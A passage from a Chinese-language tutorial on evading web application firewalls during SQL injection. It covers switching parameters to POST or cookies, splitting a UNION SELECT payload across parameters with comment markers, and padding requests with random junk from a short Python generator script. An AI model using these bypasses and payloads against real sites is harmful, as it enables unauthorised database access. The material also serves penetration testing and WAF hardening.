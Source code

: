 
对于这种参数重复传参的情况，不同环境有不同结果：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316984361-71fe98b2-2426-402d-b268-79db169fbe80.png#align=left&display=inline&height=148&margin=%5Bobject%2Object%5D&name=image.png&originHeight=296&originWidth=554&size=37024&status=done&style=none&width=277)
#### 10、更换传参方式绕过
在有些情况下，因为$_REQUEST[‘id’]的特性，我们可以将get传参的id=1切换成post传参，有些waf只针对了get传参进行防御而忽略了post传参或者cookie传参。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316989645-f827a3cc-d359-4246-9d0f-13eb04fd7b84.png#align=left&display=inline&height=124&margin=%5Bobject%2Object%5D&name=image.png&originHeight=248&originWidth=554&size=48512&status=done&style=none&width=277)
#### 11、利用数据提取方式的缺陷进行绕过
Example：
在PHP+Apache中
x=1&y=2&z=3 在某些waf中会被提取为：
x=1
y=2
z=3
payload:
id=1+union+/_&x=2_/+select/_&y=3_/+1,2,3+from+admin
waf检测方式为分别检测三个传参：
id=1+union+/*
x=2_/+select/_
y=3*/1,2,3+from+admin


数据库中，/**/中间的东西被过滤了，获得的传参为：
id=1+union+select+1,2,3+from+admin
#### 12、脏数据绕过
在被waf拦截之后，更改传参方式为POST，再通过在传参处放入大量无用数据绕过waf。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316997116-7a6e21e0-2b25-4f10-b49c-e767e0216794.png#align=left&display=inline&height=144&margin=%5Bobject%2Object%5D&name=image.png&originHeight=288&originWidth=554&size=125231&status=done&style=none&width=277)
下面给出生成垃圾数据的脚本：
#coding=utf-8
import random,string
from urllib import parse
code by yzddMr6


varname_min = 5
varname_max = 15
data_min = 20
data_max = 25
num_min = 50
num_max = 100
def randstr(length):
str_list = [random.choice(string.ascii_letters) for i in range(length)]
random_str = ''.join(str_list)
return random_str
def main():
data={}
for i in range(num_min,num_max):
data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
print('&'+parse.urlencode(data)+'&')
main()

